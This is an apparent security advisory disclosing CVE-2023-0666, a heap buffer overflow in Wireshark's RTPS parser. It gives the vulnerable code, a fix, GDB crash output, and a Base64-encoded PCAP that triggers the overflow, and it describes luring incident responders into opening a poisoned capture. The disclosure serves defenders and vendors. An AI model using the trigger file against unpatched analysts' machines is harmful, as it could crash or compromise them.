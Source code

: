 ```yaml
---
title: CVE-2023-0666 🤘
aliases: ["/cves/CVE-2023-0666.html"]
---
```


# CVE-2023-0666: Wireshark RTPS Parsing Buffer Overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0666] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [RTPS](https://wiki.wireshark.org/Protocols/rtps) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0666] appears to be an instance of [CWE-122].

# Technical Details

The `rtps_util_add_type_library_type` function contains a call to `g_strlcpy` that, without validation, uses a length supplied by the packet data that can result in a heap-based buffer overflow.

Snippet of the vulnerable code:

```
  static gint rtps_util_add_type_library_type(proto_tree *tree,
          tvbuff_t * tvb, gint offset, const guint encoding, dissection_info *info) {
    proto_tree * annotation_tree;
    guint32 member_id = 0, member_length = 0, long_number, i;
    gint offset_tmp;
    guint16 short_number;
    gchar * name = NULL;
    rtps_util_dissect_parameter_header(tvb, &offset, encoding, &member_id, &member_length);
    offset_tmp = offset;
/* ... */
    long_number = tvb_get_guint32(tvb, offset_tmp, encoding);
    name = tvb_get_string_enc(wmem_packet_scope(), tvb, offset_tmp+4, long_number, ENC_ASCII);
    if (info)
      (void) g_strlcpy(info->member_name, name, long_number);
```

The `dissection_info` struct is defined as:

```
  typedef struct _dissection_info {
    guint64 type_id;
    gint member_kind;
    guint64 base_type_id;
    guint32 member_length;
    gchar member_name[MAX_MEMBER_NAME];

    RTICdrTypeObjectExtensibility extensibility;

    gint32 bound;
    guint32 num_elements;
    dissection_element* elements;

  } dissection_info;
```

and `MAX_MEMBER_NAME` is defined as:

```
  #define MAX_MEMBER_NAME                 (256)
```

The overflow occurs when `long_number` is greater than 256 bytes however it should be noted that this does require that many bytes to have been sent.

`g_strlcpy` expects the size of the destination buffer as the last argument so this can be remediated by using `sizeof(info->member_name)` instead of `long_number` in the `g_strlcpy` call. Additionally, the return value should be checked because if it is greater than `sizeof(info->member_name)`, then truncation occurred.

Reproduction: Run `tshark -r rtps_trigger.pcap` or open `rtps_trigger.pcap` in Wireshark. Note that an ASAN build is not required due to the way the PCAP was crafted.

Full output from running under GDB:

```
(gdb) run -r ~/rtps_trigger.pcap
Starting program: /usr/bin/tshark -r ~/rtps_trigger.pcap

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.ubuntu.com
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fffebcdd6c0 (LWP 125835)]
[Thread 0x7fffebcdd6c0 (LWP 125835) exited]
[New Thread 0x7fffebcdd6c0 (LWP 125836)]
[Thread 0x7fffebcdd6c0 (LWP 125836) exited]
    1   0.000000 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [SYN] Seq=0 Win=8192 Len=0
    2   0.000363 192.168.0.214 → 192.168.0.231 TCP 54 9187 → 2603 [SYN, ACK] Seq=0 Ack=0 Win=8192 Len=0
    3   0.000611 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [ACK] Seq=1 Ack=0 Win=8192 Len=0
    4   0.000853 192.168.0.231 → 192.168.0.214 RTPS 1454 DATA_deprecated[Malformed Packet]

Thread 1 "tshark" received signal SIGSEGV, Segmentation fault.
wmem_block_split_free_chunk (allocator=0x5555555bf660, chunk=0x7fffe9f44fb0, size=<optimized out>) at ./wsutil/wmem/wmem_allocator_block.c:614
614     ./wsutil/wmem/wmem_allocator_block.c: No such file or directory.
(gdb) x/5i $pc
=> 0x7ffff088db1b <wmem_block_split_free_chunk+267>:    mov    QWORD PTR [rsi+0x10],rax
   0x7ffff088db1f <wmem_block_split_free_chunk+271>:    mov    QWORD PTR [r8+0x8],rax
   0x7ffff088db23 <wmem_block_split_free_chunk+275>:    jmp    0x7ffff088da9b <wmem_block_split_free_chunk+139>
   0x7ffff088db28 <wmem_block_split_free_chunk+280>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff088db30 <wmem_block_split_free_chunk+288>:    mov    rax,QWORD PTR [rcx+0x10]
(gdb) p (char[]) $rsi
$1 = "AHA!AHA!"
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

{{< details >}}

```
1MOyoQIABAAAAAAAAAAAAP//AAABAAAAW+1JZDkZDgA2AAAANgAAAHRGoNgQS3RGo
CvQ6AgARQAAKAABAABABvfBwKgA58CoANYKKyPjAAC1rAAAAABQAiAAKRoAAFvtSW
SkGg4ANgAAADYAAAB0RqAr0Oh0RqDYEEsIAEUAACgAAQAAQAb3wcCoANbAqADnI+M
KKwAAAAEAALWsUBIgACkJAABb7UlknBsOADYAAAA2AAAAdEag2BBLdEagK9DoCABF
AAAoAAEAAEAG98HAqADnwKgA1gorI+MAALWtAAAAAVAQIAApCgAAW+1JZI4cDgCuB
QAArgUAAHRGoNgQS3RGoCvQ6AgARQAFoAABAABABvJJwKgA58CoANYKKyPjAAC1rQ
AAAAJQGCAA7yIAAAAACJBSVFBTAgABAQAAAAAAAQkBEjRWeAIbeABSZWFkV3JpdJh
2VDIQ/ty6EjRWeN6tur5FZ4kKuqqqrRD+3LpyAEwAAQAAAAYAAABGaQABDgAAAAIA
AAARIjNEVWZ3iJmqu8zd7v8WFxgZICEiIyQBAgMEBQYHCAkQERITFBUWFxgZICEiI
yQDAAAARXhwAAEAAABBYTBBYTFBYTJBYTNBYTRBYTVBYTZBYTdBYThBYTlBYjBBYj
FBYjJBYjNBYjRBYjVBYjZBYjdBYjhBYjlBYzBBYzFBYzJBYzNBYzRBYzVBYzZBYzd
BYzhBYzlBZDBBZDFBZDJBZDNBZDRBZDVBZDZBZDdBZDhBZDlBZTBBZTFBZTJBZTNB
ZTRBZTVBZTZBZTdBZThBZTlBZjBBZjFBZjJBZjNBZjRBZjVBZjZBZjdBZjhBZjlBZ
zBBZzFBZzJBZzNBZzRBZzVBZzZBZzdBZzhBZzlBaAAEAABBaDJBaDNBaDRBaDVBaD
ZBaDdBaDhBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJ
BajNBajRBajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhB
azlBbDBBbDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBb
TVBbTZBbTdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbz
FBbzJBbzNBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDd
BcDhBcDlBcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhB
ITRBcjVBcjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBd
DBBdDFBdDJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdT
ZBdTdBdThBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJ
BdzNBdzRBdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhB
eDlBeTBBeTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBe
jVBejZBejdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYj
FCYjJCYjNCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzd
CYzhCYzlCZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNC
ZTRCZTVCZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZ
zBCZzFCZzJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaD
ZCaDdCaDhCaDlCaTBCQWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWI
xQWIyQWIzQWI0QWI1QWI2QWI3QWI4QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3
QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3QWQ4QWQ5QWUwQWUxQWUyQWUzQ
WU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2QWY3QWY4QWY5QW
cwQWcxQWcyQWczQWc0QWc1QWc2QWc3QWc4QWc5QWgwQWgxQWgyQWgzQWg0QWg1W+1
JZBUeDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvfBwKgA1sCoAOcj
4worAAAAAgAAuyVQECAAI5EAAFvtSWQAHw4AUgMAAFIDAAB0RqDYEEt0RqAr0OgIA
EUAA0QAAQAAQAb0pcCoAOfAqADWCisj4wAAuyUAAAACUBggAG1hAABBaDZBaDdBaD
hBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJBajNBajR
BajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhBazlBbDBB
bDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBbTVBbTZBb
TdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbzFBbzJBbz
NBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDdBcDhBcDl
BcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhBITRBcjVB
cjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBdDBBdDFBd
DJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdTZBdTdBdT
hBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJBdzNBdzR
BdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhBeDlBeTBB
eTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBejVBejZBe
jdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYjFCYjJCYj
NCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzdCYzhCYzl
CZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNCZTRCZTVC
ZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZzBCZzFCZ
zJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaDZCaDdCaD
hCaDlCaTBCW+1JZHggDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvf
BwKgA1sCoAOcj4worAAAAAgAAvkFQECAAIHUAAA==
```

{{< /details >}}

<br/>

# Attacker Value

By providing this poisoned RTPS packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [Austin Hackers Anonymous!](https://infosec.exchange/@austinhackers)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19085].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19085] to address.
* 2023-05-21 (Sun): Patch [merged](https://gitlab.com/wireshark/wireshark/-/merge_requests/10687) to the release-4.0 branch of Wireshark.
* 2023-05-22 (Mon): Issue [19085] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0666] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-06 (Tue): Public disclosure of [CVE-2023-0666]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0666]: https://takeonme.org/cves/CVE-2023-0666.html
[CWE-122]: https://cwe.mitre.org/data/definitions/122.html
[meeting]: https://takeonme.org/meetings.html
[19085]: https://gitlab.com/wireshark/wireshark/-/issues/19085
[Wireshark]: https://www.wireshark.org/download.html
